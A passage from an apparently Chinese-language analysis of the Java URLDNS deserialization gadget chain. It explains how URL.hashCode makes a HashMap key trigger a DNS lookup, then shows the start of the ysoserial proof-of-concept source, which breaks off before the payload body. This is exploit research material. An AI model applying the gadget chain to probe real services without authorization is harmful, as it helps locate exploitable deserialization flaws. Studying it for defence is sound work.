             // Generate the port part.
            if (u.getPort() == -1)
                h += getDefaultPort();
            else
                h += u.getPort();

            // Generate the ref part.
            String ref = u.getRef();
            if (ref != null)
                h += ref.hashCode();

            return h;
        }
    ```


因此，将URL对象作为HashMap的key存储，反序列化时就会触发DNS请求。

### PoC

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
```